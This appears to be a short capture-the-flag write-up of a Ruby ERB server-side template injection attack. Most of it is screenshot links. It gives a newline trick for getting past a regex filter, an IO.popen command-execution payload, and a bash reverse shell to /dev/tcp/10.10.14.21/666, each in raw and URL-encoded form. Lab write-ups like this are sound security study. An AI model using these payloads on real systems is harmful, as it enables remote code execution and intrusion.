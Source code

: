 ![](Pasted%20image%2020250209133849.png)

![](Pasted%20image%2020250209133935.png)

I'll capture the request with **Burpsuite**:

![](Pasted%20image%2020250209134217.png)

I now submit an OK request and capture it with **Burp**:

![](Pasted%20image%2020250209134544.png)

I'll try a possible SSTIs:

```shell
<%= %>
```

![](Pasted%20image%2020250209135304.png)

Got blocked by a regex.

## Weaponization

I'll try some SSTI payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md):

```sell
test
<%= IO.popen("id").readlines()%>

# to url encode:
test%0A%3C%25=%20IO.popen(%22id%22).readlines()%25%3E
```

## Exploitation

Got RCE:

![](Pasted%20image%2020250209140530.png)

So now I'll get a reverse shell with this payload:

```shell
test
<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.21/666 0>&1'").readlines()%>

# to url encode (encode all chars):
test%0A%3C%25%3D%20IO%2Epopen%28%22bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E21%2F666%200%3E%261%27%22%29%2Ereadlines%28%29%25%3E
```

> Got a reverse shell :D

![](Pasted%20image%2020250209141230.png)
